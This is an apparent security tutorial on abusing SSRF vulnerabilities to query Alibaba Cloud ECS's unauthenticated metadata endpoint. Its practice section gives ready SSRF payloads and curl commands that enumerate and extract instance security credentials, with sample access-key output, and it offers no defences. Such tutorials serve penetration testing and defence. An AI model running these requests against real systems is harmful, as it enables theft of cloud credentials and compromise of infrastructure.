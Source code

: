 ```yaml
---
title: Exploiting Alibaba Cloud ECS Metadata via SSRF
description: Learn how SSRF vulnerabilities can be exploited to access Alibaba Cloud
  ECS metadata, revealing sensitive information.
keywords:
- Alibaba Cloud
- ECS metadata
- SSRF exploitation
- metadata service
- cloud security
- instance metadata
- Alibaba security
- sensitive data extraction
- cybersecurity
- cloud vulnerabilities
---
```


# Alibaba Cloud

## Context

The purpose of this article is to explore the exploitation of Alibaba Cloud's Elastic Compute Service (ECS) metadata service through Server-Side Request Forgery (SSRF) vulnerabilities. This technique allows attackers to extract sensitive information from the cloud environment, highlighting security concerns associated with metadata services. It is assumed that readers are familiar with HTTP requests, cloud service architectures, metadata service concepts, and SSRF techniques.

## Theory

### Alibaba Cloud ECS Metadata Service Overview

Alibaba Cloud ECS instances provide a metadata service accessible through the internal endpoint `http://100.100.100.200/latest/meta-data/`. This service delivers a variety of instance-specific information to applications running on ECS instances. A significant vulnerability model underlying this service is the lack of authentication requirements, allowing any process within the instance's network to access metadata without restriction.

### Sensitive Metadata Elements

The metadata service exposes several sensitive endpoints such as `instance-id`, `image-id`, `security-credentials`, and `region-id`. These elements can be critical to the function of the ECS instance and, if exposed, can lead to a compromise of the infrastructure. SSRF vulnerabilities can be leveraged to trick applications into directing requests to these metadata endpoints, thereby leaking confidential data.

### Attack Sequence: SSRF to Metadata Extraction on Alibaba Cloud

The attack sequence involving SSRF and the Alibaba Cloud ECS metadata service typically follows these steps:

1. **Identify SSRF Primitive**: Locate an SSRF vulnerability in a web application hosted within the same network context as an ECS instance.

2. **Target Metadata Endpoint**: Use SSRF to make the vulnerable server request data from the Alibaba Cloud metadata endpoint.

3. **Extract Sensitive Metadata**: Retrieve the server's response containing the sensitive information.

```mermaid
flowchart TD
A[Attacker finds SSRF] --> B[Targets http://100.100.100.200/latest/meta-data/]
B --> C[Server requests metadata]
C --> D[Attacker receives metadata response]
```

### Security Implications of Metadata Exposure

Exposing metadata can have severe security implications, providing attackers with credentials that enable privilege escalation or lateral movement within the cloud environment. These credentials may be mistakenly trusted due to the assumption that only authorized workloads will access the metadata service, enhancing the potential severity of an exploit.

## Practice

### SSRF Exploitation to Extract Alibaba Cloud ECS Metadata

- **Objective**: Use SSRF to extract sensitive metadata from Alibaba Cloud ECS instances.

1. **Craft SSRF Payload**:
    - Target the Alibaba ECS metadata endpoint by crafting a payload that causes the vulnerable server to perform requests on behalf of the attacker.

    ```payload
    http://100.100.100.200/latest/meta-data/instance-id
    ```

2. **Send Payload via SSRF**:
    - Deploy the SSRF payload using a curl command to send a POST request to the vulnerable application endpoint.

    ```bash
    curl -X POST -d 'url=http://100.100.100.200/latest/meta-data/instance-id' https://vulnerable-app.example.com/ssrf-endpoint
    ```

3. **Review Output**:
    - Analyze the response to confirm access to the metadata service. A typical output might resemble:

    ```text
    i-abcdefgh123456789
    ```

4. **Enumerate Security Credentials**:
    - Proceed to enumerate the available IAM roles or credentials associated with the ECS instance.

    ```payload
    http://100.100.100.200/latest/meta-data/security-credentials/
    ```

5. **Extract Credentials**:

    - Use the SSRF vulnerability to extract security credentials, issuing a command such as:

    ```bash
    curl -X POST -d 'url=http://100.100.100.200/latest/meta-data/security-credentials/ecs-role-name' https://vulnerable-app.example.com/ssrf-endpoint
    ```

6. **Review Output**:
    - The server's stdout should return sensitive credentials, for example:

    ```json
    {
      "AccessKeyId": "LTAI4G...",
      "AccessKeySecret": "abcd1234...",
      "SecurityToken": "CAIS..."
    }
    ```

## Tools

- **curl**
